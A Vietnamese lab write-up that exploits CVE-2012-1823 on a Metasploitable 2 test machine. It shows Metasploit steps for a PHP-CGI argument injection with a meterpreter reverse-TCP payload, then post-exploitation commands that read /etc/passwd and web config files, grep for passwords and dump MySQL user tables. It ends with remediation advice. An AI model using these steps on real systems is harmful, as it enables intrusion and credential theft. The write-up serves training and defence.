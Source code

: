 # 🛡️Remote Code Execution thông qua PHP-CGI Argument Injection
> - **Tên lỗ hỏng:** PHP CGI Argument Injection
> - **Mã CVE:** CVE-2012-1823
> - **Mức độ:** Cao
> - **Ngày phát hiện:** 2012
## 🧱 1. Mô tả lỗ hổng
Hệ thống web hiện đang chạy PHP 5.2.4 với mô hình xử lý CGI. Đây là một phiên bản đã quá cũ (phát hành năm 2007) và chứa lỗ hổng argument injection, cho phép kẻ tấn công chèn các tham số tùy ý (-d allow_url_include=on, -d auto_prepend_file=php://input, v.v...) dẫn đến thực thi mã từ xa (RCE).
## Kỹ thuật khai thác:
- Gửi một HTTP request có ? chứa argument bất hợp lệ vào php-cgi
- Truyền mã PHP độc hại thông qua POST
- Kết quả: shell được thực thi từ xa
## ⚒️ 2. Thử nghiệm thực tế
- QUYÉT MÁY CHỦ để tìm thông tin về phiên bản web server:
```
sudo msfconsole
use auxiliary/scanner/http/http_version
set rhost <IP Metasploitable 2>
exploit
```
<img width="704" height="259" alt="image" src="https://github.com/user-attachments/assets/d9664fec-59cf-4cb9-8c63-3083583190b1" />

- Sau khi xác minh được phiên bản PHP trên web server là 5.4.2. Tìm kiếm các lỗ hổng bảo mật có liên quan:
```
searchsploit apache | grep 5.4.2
```

```
sudo mfsconsole
search php_cgi
```

- Sử dụng module php_cgi_arg_injection của Metataploit để chiếm shell trên Metasploitable
```
sudo msfconsole
use multi/http/php_cgi_arg_injection
set rhost <IP Metasploitable 2>
set lhost
set lport
set PAYLOAD php/meterpreter/reverse_tcp
$exploit
```

```
shell
```
- ⚔️ 1. Kiểm tra thông tin hệ thống
```
uname -a          # Thông tin kernel
id                # Kiểm tra UID, GID
```
- 🔍 2. Kiểm tra các user trên hệ thống
```
cat /etc/passwd
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki:
```
cat /var/www/dvwa/config/config.inc.php
cat /var/www/mutillidae/config.inc.php
```

<img width="950" height="441" alt="image" src="https://github.com/user-attachments/assets/c4b0795d-7993-4b1a-9906-8b4096b8592f" />

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập:
```
mysql -u root -p
```

- 🧱 8. Kiểm tra các tiến trình đang chạy, dịch vụ khả nghi
```
ps aux
```

- 🔍 1. Tìm kiếm file chứa mật khẩu trong thư mục web
```
grep -Ri 'pass\|user' /var/www/
```

- 🔍 2. Xem nội dung các thư mục /home
```
ls -la /home/msfadmin
ls -la /home/user
ls -la /home/service
```

-EXPLOIT DATABASES:
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
exit
```

- THỰC HIỆN CHÍM SHELL
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
su users
```
hoặc
```
su msfadmin
# mật khẩu: msfadmin hoặc password
```

- XEM SETTING
```
show options
```
## 📉 3. Rủi ro an ninh

| Mức độ                 | Mô tả                                            |
| ---------------------- | ------------------------------------------------ |
| **Tác động**           | Toàn bộ hệ thống có thể bị chiếm quyền kiểm soát |
| **Khả năng khai thác** | Rất cao – công cụ công khai, không cần xác thực  |
| **Hậu quả tiềm ẩn**    | Rò rỉ dữ liệu, chèn web shell, pivot mạng nội bộ |

## 🧠 Vì sao lại thuộc nhóm "Vulnerable and Outdated Components"?

| Tiêu chí                                 | Có khớp không?                        |
| ---------------------------------------- | ------------------------------------- |
| ❌ Phần mềm không được cập nhật           | ✅ PHP 5.2.4 quá cũ (2007)             |
| ⚠️ Lỗ hổng đã công bố và có mã khai thác | ✅ CVE-2012-1823                       |
| 🔥 Hacker có thể khai thác từ xa         | ✅ Tấn công RCE thành công             |
| 🔐 Không có kiểm soát an ninh bù         | ✅ Không dùng WAF hoặc cấu hình bảo vệ |

## 🛡️ 4. Đề xuất khắc phục

| Hành động               | Chi tiết                                                      |
| ----------------------- | ------------------------------------------------------------- |
| 🔄 **Cập nhật PHP**     | Nâng cấp PHP lên ít nhất phiên bản **7.4 trở lên**            |
| 🔐 **Tắt PHP-CGI**      | Nếu không bắt buộc dùng CGI, tắt hoàn toàn module             |
| 🚧 **Cấu hình WAF/IDS** | Triển khai WAF (ModSecurity, v.v...) để lọc tham số nguy hiểm |
| 🧹 **Quản lý bản vá**   | Thiết lập lịch cập nhật phần mềm định kỳ                      |
## Tham Khảo
- https://github.com/0xl0k1/CVE-2012-1823
## ✅ Kết Luận
## NOTEs
- **metaploit2**
| Trường       | Giá trị    |
| ------------ | ---------- |
| **Username** | `msfadmin` |
| **Password** | `msfadmin` |

